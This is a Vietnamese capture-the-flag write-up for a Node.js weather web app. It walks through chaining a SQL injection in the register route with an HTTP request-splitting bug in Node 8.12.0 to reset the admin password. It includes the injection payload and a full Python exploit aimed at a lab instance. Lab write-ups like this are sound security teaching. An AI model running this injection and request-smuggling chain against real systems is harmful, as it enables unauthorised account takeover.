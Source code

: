 ![image](https://github.com/user-attachments/assets/ce52713d-173b-4f9b-9941-13c099c34e15)

Đây là giao diện của web:

![image](https://github.com/user-attachments/assets/b4ca7230-a7bf-4dbf-8106-defb6aa91ef9)

![image](https://github.com/user-attachments/assets/c1770115-a102-4785-8439-d87ba681f702)

![image](https://github.com/user-attachments/assets/9e93152d-3b2b-4636-b0f6-564908c51724)

Khi login với admin:admin thì nó ra như này, ở src code thì cái password admin được random:

![image](https://github.com/user-attachments/assets/dd3f250c-ba6d-4982-8e37-b1b2335e5d9b)

![image](https://github.com/user-attachments/assets/778ff23a-19ff-45b1-a4f9-0d5a2972379d)

Và cũng không có đăng kí được:

![image](https://github.com/user-attachments/assets/7a9a13f8-4c22-4139-821d-ce7624e6c66c)

Lý do là do cái này, chốc nữa sẽ nhắc lại sau:

![image](https://github.com/user-attachments/assets/ee8c6428-ff56-4ee1-b764-0dc265e50031)

Quay lại đọc src code, cái db gồm có 3 cột là id, username và password 

![image](https://github.com/user-attachments/assets/fd9aa526-d497-4b66-a170-e0ce67c54570)

Thêm 1 cái đáng lưu ý ở đây là cái register lại không dùng Prepared Statements, còn isadmin có ? rồi thì có vẻ không sqli được, tôi nghĩ là có thể lợi dụng register để đổi lại mật khẩu cho admin:

![image](https://github.com/user-attachments/assets/21764551-a156-426a-81e9-0abec0c94283)

Vậy là register có thể sẽ dính sqli với payload `admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--` nhưng lại vướng cái 401 do nó đưa về 127.0.0.1. Tiếp tục đọc src code thì đây là nodejs bản 8.12.0 và có 1 cái [cve](https://snyk.io/test/docker/node%3A8.12.0-alpine#SNYK-UPSTREAM-NODE-73603):

![image](https://github.com/user-attachments/assets/7c7c615d-dd43-4128-ac87-f6facbcda8a1)

Cái lỗi này là khi gửi 1 request nhưng vào phía server thì bên server sẽ tách ra tùy theo input mà user gửi tới, từ đó có thể tạo một POST request mới kẹp vào để để gửi theo, tôi gửi 3 req, gồm có 2 cái là localhost/lmao và GET / ở thứ nhất và thứ 3 để là giả, còn cái POST ở giữa để update lại password:

![image](https://github.com/user-attachments/assets/5e7d35cb-8257-4f38-8b44-d0a1c6309fa1)

Có mấy cái như space = "\u0120" \r = "\u010D" \n = "\u010A" là biểu thị trong unicode. 
Trong HTTP, một số ký tự được coi là ký tự điều khiển (control characters) và không được phép xuất hiện trong các thành phần như tiêu đề (headers), đường dẫn (URL), hoặc nội dung yêu cầu/phản hồi. 
Tuy nhiên, các ký tự Unicode được đề cập không phải là ký tự điều khiển trong HTTP, nên có thể sử dụng mà không vi phạm quy tắc của giao thức

```
import requests

username = "admin"
password = "admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"

parsedUser = username.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22")
parsedPass = password.replace(" ", "\u0120").replace("'", "%27").replace('"',"%22")

contentLength = len(parsedUser) + len(parsedPass) + 20


test = "localhost/lmao\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010A"
test = test + "Content-Length:\u0120" + str(contentLength) + "\u010D\u010A\u010D\u010A"
test = test + f"username={parsedUser}&password={parsedPass}" + "\u010D\u010A\u010D\u010AGET\u0120/"
 
requests.post("http://94.237.54.116:32634/api/weather", json={'endpoint': test, 'city': 'Hanoi','country': 'VN'})

```











